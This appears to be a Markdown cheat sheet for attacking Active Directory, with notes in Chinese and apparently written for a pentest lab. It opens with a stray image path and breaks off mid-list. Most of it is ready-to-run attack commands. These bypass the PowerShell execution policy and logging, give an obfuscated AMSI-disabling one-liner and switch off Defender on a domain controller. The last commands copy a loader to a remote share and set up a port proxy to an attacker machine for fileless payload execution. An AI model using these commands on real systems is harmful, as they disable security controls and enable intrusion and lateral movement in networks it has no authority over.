 # AD Cheat Sheet

## Execution Policy
- `powershell -ExecutionPolicy bypass`
- `powershell -c {cmd}`
- `powershell -ep bypass`
- `powershell -encodedcommand "xxx"`
	- 使用 UTF-16LE 來進行編碼
	- Power Shell 解法
```powershell
$s = "Write-Output meow"
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($string))
```
		- Python 解法
```python
import base64
s = "Write-Output meow"
encoded_bytes = s.encode('utf-16le')
base64_string = base64.b64encode(encoded_bytes).decode('ascii')
print(base64_string)
```
- `$env:PSExecutionPolicyPreference="bypass"`

## Bypass PowerShell Security
### Invisi-Shell
https://github.com/OmerYa/Invisi-Shell
這套工具 Hook 了 .NET 的 Assembly `(System.Management.Automation.dll and System.Core.dll)` 來 Bypass 紀錄
使用 CLR (Common Language Runtime) profiler 來實現 Hook。CLR 是一個 DLL 包含了一系列的 function 來收發 message。他可以 Bypass ScriptBlock logging, Module logging, Transcription, AMSI
- 有 Admin 權限
	- `RunWithPathAsAdmin.bat`
- 沒 Admin 權限
	- `RunWithRegistryNonAdmin.bat`
- 結束後
	- `exit`
### Bypass AMSI
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### 關 AV
- `Set-MpPreference -DisableRealtimeMonitoring $true`
- `Set-MpPreference -DisableIOAVProtection $true`
	- 關閉下載檔案掃描的監測功能
- 一行搞定以上兩個東東
	- `Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true; Set-MpPreference -DisableRealtimeMonitoring $true} -Computer dcorp-dc`
### Loader
- 把 Loader 丟過去
	- `copy .\Loader.exe \\dcorp-mgmt\C$\Users\Public`
- 把攻擊機的 Port 轉去 Local 
	- `winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=6666 connectaddress=172.16.99.65"`
- 用 Loader 帶起攻擊機 WebServer 上的 Exe 但不落地 